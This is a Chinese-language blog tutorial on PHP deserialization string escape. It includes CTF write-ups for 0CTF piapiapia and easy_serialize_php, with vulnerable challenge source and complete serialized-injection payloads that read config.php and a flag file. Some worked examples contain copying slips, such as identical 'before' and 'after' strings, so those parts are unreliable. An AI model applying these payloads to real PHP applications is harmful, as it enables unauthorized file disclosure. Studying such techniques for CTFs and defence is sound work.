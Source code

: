 ```yaml
---
title: php反序列化字符串逃逸
date: 2020-07-19 09:50:06
updated: 2020-07-19 09:50:06
categories: web
---
```




要学习反序列化字符串逃逸之前，我们需要知道php反序列化的几大特性。<!--more-->

> 1.PHP 在反序列化时，底层代码是以 `;` 作为字段的分隔，以 `}` 作为结尾(字符串除外)，并且是根据长度判断内容的 .

> 2.当长度不对应的时候会出现报错

> 3.可以反序列化类中不存在的元素

## 反序列化字符串逃逸
```
 1.过滤后字符变多
 2.过滤后字符变少
```

### 过滤后字符变多

![](https://img.npfs06.top/20210306095339.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210306095358.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



![](https://img.npfs06.top/20210306095420.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

当我们传入？name =npfsx 时，由于溢出，反序列化失败，这个时候我们就可以利用这里的溢出，构造注入，实现字符串逃逸

![](https://img.npfs06.top/20210306095431.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

其实总的来说就是因为执行text函数将一个字符（x),替换成两个字符 (66), 使字符串膨胀，造成了之后的序列化中，多出来的这些字符抢占了本属于`";i:1;s:6:"hacker";}`的位子，使其溢出，而我们要做的就是使溢出的这部分在闭合前一字符串的同时，符合php反序列化规则，能够被成功反序列化

所以`";i:1;s:6:"hacker";}`这一部分前面的字符`";`就是我们用来闭合前面字符串的，这样剩下的`i:1;s:6:"hacker"`这一部分符合反序列化规则，最后的`;}`是用来闭合反序列化全过程的，这样原来的`";i:1;s:14:"hello everyone";}`就会被舍弃，而不影响反序列化过程

---

### 过滤后字符变少

![](https://img.npfs06.top/20210306095446.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210306095522.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210306095456.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



![](https://img.npfs06.top/20210306095536.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

总的来说就是由于缩水，导致前面的字符被吃掉了，所以执行了我们后面构造的代码



---



## **0CTF piapiapia**

使其主要的代码就四部分

先拿seay审下（第一次用，发现真是神器啊2333）

![](https://img.npfs06.top/20210306095552.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

可以发现config.php里有个flag
![](https://img.npfs06.top/20210306095603.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

我们在register.php页面注册，在index.php页面登入之后，来到update.php页面，我们可以看到这个页面是一个文件上传页面，结合seay，审计代码，发现这里有一个序列化的过程，同时在序列化之前会对我们输入的Phone、Email、Nickname、Photo进行正则匹配（phone要类似于11位数组的构造，email要类似于123@qq.com这样邮箱的构造，这两种都是不符合则die，而Nickname恰恰相反，它是如果匹配到非字符数字下划线或者长度超过10则die，这里可以用数组绕过）

![](https://img.npfs06.top/20210306095618.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

这里有个update_profile函数，我们追溯看看

![](https://img.npfs06.top/20210306095631.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

可以发现里面有个filter函数，继续追溯

![](https://img.npfs06.top/20210306095643.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

通过审计发现会将字符串中的`\`和`\\\\`	替换成下划线，也会将部分字符替换成hacker,这里细心点可以发现这些字符串里面只有where是5位的，其他都是6位的

---

回到update.php页面，尝试上传文件，来到了profile.php页面，审计代码，发现这里有个反序列化操作，还有一个文件读取操作

![](https://img.npfs06.top/20210306095655.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

其实看到这里，大概思路应该就有了，flag在config.php中，我们在上传页面参数被序列化，再经历一系列替换之后，再进行反序列化，同时还有文件读取

php反序列化字符串逃逸的常见套路，我们可以将config.php作为逃逸字符串，经过一系列变化后，读取出来

最终payload

```
nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

![](https://img.npfs06.top/20210306095712.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

上传后来到profile.php页面，读取源码，base64解密，即可得到flag

这里为什么要构造nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}其实如果看懂我上面写的`过滤后字符变多`这一模块后是很好理解的

filter函数会将where替换成hacker，字符数增加1，字符串膨胀

> ";}s:5:"photo";s:10:"config.php";}   

这一部分一共34个字符，这也就以为这当我们构造34个where时，当where被替换成hacker之后，会多出34个字符，使得";}s:5:"photo";s:10:"config.php";}  被向后推，从而替代了photo的序列化结果

**替换前**


```
a:4{s:5:"phone";s:11:"12345678901";s:5:"email";s:10:"123@qq.com";s:8:"nickname";s:204:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}";s:39:"upload/804f743824c0451b2f60d81b63b6a900";}
```

**替换后**
```
a:4{s:5:"phone";s:11:"12345678901";s:5:"email";s:10:"123@qq.com";s:8:"nickname";s:204:"wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}";s:39:"upload/804f743824c0451b2f60d81b63b6a900";}
```

---

## **[安洵杯 2019]easy_serialize_php**

这一题考察的是过滤后字符变少

```
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

具体过程我就不写了，参考上文`过滤后字符变少`板块，

本地测试脚本如下：

```
<?php

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
$_SESSION["user"] = 'L2QwZzNfZmxsbGxsbGFn';
$_SESSION['function'] ='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"aa";s:2:"ss";}';
$_SESSION["img"]='ZDBnM19mMWFnLnBocA==';
$serialize_info = filter(serialize($_SESSION));
echo $serialize_info;
$userinfo = unserialize($serialize_info);
?>

```



payload:

> GET   ?f=show_image

> POST SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"aa";s:2:"ss";}

查看源码，$flag = 'flag in /d0g3_fllllllag';

所以构造

payload

> GET  ?f=show_image

> POST   SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:2:"aa";s:2:"ss";}

得到flag